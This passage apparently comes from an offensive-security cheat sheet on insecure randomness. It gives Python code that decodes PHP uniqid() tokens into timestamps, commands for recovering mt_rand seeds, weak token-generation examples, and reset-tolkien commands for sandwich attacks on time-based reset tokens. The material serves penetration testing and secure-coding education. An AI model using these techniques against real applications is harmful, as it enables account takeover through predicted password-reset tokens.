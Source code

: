 ### Tools

```py
import math
import datetime

def uniqid(timestamp: float) -> str:
    sec = math.floor(timestamp)
    usec = round(1000000 * (timestamp - sec))
    return "%8x%05x" % (sec, usec)

def reverse_uniqid(value: str) -> float:
    sec = int(value[:8], 16)
    usec = int(value[8:], 16)
    return float(f"{sec}.{usec}")

tokens = ["6659cea087cd6" , "6659cea087cea"]
for token in tokens:
    t = float(reverse_uniqid(token))
    d = datetime.datetime.fromtimestamp(t)
    print(f"{token} - {t} => {d}")
```

## mt_rand

Breaking mt_rand() with two output values and no bruteforce.

* [ambionics/mt_rand-reverse](https://github.com/ambionics/mt_rand-reverse) - Script to recover mt_rand()'s seed with only two outputs and without any bruteforce.

```ps1
./display_mt_rand.php 12345678 123
712530069 674417379

./reverse_mt_rand.py 712530069 674417379 123 1
```

## Custom Algorithms

Creating your own randomness algorithm is generally not recommended. Below are some examples found on GitHub or StackOverflow that are sometimes used in production, but may not be reliable or secure.

* `$token = md5($emailId).rand(10,9999);`
* `$token = md5(time()+123456789 % rand(4000, 55000000));`

### Tools

Generic identification and sandwitch attack:

* [AethliosIK/reset-tolkien](https://github.com/AethliosIK/reset-tolkien) - Insecure time-based secret exploitation and Sandwich attack implementation Resources

    ```ps1
    reset-tolkien detect 660430516ffcf -d "Wed, 27 Mar 2024 14:42:25 GMT" --prefixes "attacker@example.com" --suffixes "attacker@example.com" --timezone "-7"
    reset-tolkien sandwich 660430516ffcf -bt 1711550546.485597 -et 1711550546.505134 -o output.txt --token-format="uniqid"
    ```
